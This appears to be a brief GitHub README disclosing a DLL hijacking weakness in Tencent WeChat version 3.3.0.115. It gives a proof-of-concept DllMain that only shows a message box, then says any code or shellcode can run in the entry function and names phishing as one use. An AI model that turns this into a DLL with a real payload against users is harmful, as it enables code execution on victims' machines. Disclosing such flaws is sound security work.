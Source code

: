 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:


`BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}`

#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
